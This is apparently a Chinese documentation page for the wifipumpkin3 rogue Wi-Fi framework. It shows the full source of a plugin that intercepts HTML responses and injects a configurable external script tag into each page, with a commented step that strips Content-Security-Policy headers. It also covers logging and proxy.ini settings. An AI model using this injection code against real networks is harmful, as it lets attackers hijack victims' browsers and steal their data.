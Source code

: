 示例如何实时重写数据包

```text
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup

class js_inject(BasePumpkin):
    meta = {
        "_name": "js_inject",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return js_inject.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.url = self._config.get("set_js_inject", "url")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.url
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data
```

### 日志

所有的日志将保存在你的插件中（`pumpkin-prxoy.log`）

### 如何添加参数

现在，如果你想在`proxy.ini`中添加参数并显示在`Pumpkin-Proxy->Settings`中。你需要在“`core/config/app/proxy.ini`”文件中添加键值\(exampleplugin and set\_exampleplugin\)

